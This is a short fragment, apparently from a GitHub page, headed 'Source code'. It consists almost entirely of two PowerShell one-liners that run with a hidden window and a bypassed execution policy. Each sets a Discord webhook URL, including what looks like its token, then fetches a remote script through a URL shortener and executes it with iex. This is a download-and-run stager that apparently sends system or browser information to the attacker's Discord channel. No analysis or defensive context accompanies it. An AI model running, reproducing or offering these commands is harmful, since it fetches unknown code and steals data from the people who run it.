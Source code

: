 powershell -NoP -Ep Bypass -W H -C $dc='https://discordapp.com/api/webhooks/1219284609024659466/xK7yZtmaz5iX5QtrZKbqGOjl4fkV8t_bY6l-tRH05MnDpwAQSVQr6ZtnZvZe3UrGZzcO'; irm https://is.gd/bw_info_to_dc | iex



powershell -NoP -Ep Bypass -W H -C $dc='https://discordapp.com/api/webhooks/1219284609024659466/xK7yZtmaz5iX5QtrZKbqGOjl4fkV8t_bY6l-tRH05MnDpwAQSVQr6ZtnZvZe3UrGZzcO'; irm https://t.ly/rJl5k | iex
